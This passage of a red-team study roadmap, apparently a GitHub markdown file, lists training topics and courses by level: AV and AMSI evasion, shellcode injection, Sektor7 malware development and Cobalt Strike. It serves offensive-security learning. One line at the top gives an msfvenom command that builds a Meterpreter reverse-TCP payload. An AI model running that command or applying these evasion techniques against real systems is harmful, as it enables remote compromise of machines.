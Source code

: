 					- msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=x.x.x.x -f -vba-psh

			- dotnettojscript
			- 
		- email sec
			- sender policy framework
			- bypass anti-spam
			- dkim verifying message content
	- defensive evasion
		- bypass amsi
		- bypass av
			- sections shellcode process injector (C#)
			- shellcode process hollowing (C#)
			- shellcode process injector (C# and PSI)
		- bypass app whitelisintg
		- bypass win applocker
	- priv esc, Lat Mov, AD


# Level 5
- Book 1: Red team development and operation (sans sec564 red team opeartion)
	- Engagement Planning
		- roles and responsibilities
		- rules of engagement (ROE)
		- thread planning
	- Engagement Execution
		- execution's concept
		- c2 server
	- Engagement culmination
	- Engagement reporting
- Book 2: hands on red team tactics - a practical guide to mastering red team (red team practices with c2 server)


# Level 6
- before sektor 7 courses i highly recommend to read this books:
	- book 1: malware analysis and detection engineering
	- book 2: learning malware analysis - explore concepts, tools, and techniques
- sektor7 about red team and malware development
	- process and code injection
	- dll / reflected dll injection
	- write your own dropper
	- process unhooking
	- api hooking
	- module stomping / PPID spoof / command line spoof
		- detected debuggers / dynamic analysis sandboxes
		- anti-static & api hashing


# Level 7
- cobalt strike courses: raphael mudge cobalt strike red team course
	- https://www.youtube.com/@DashnineMedia/playlists
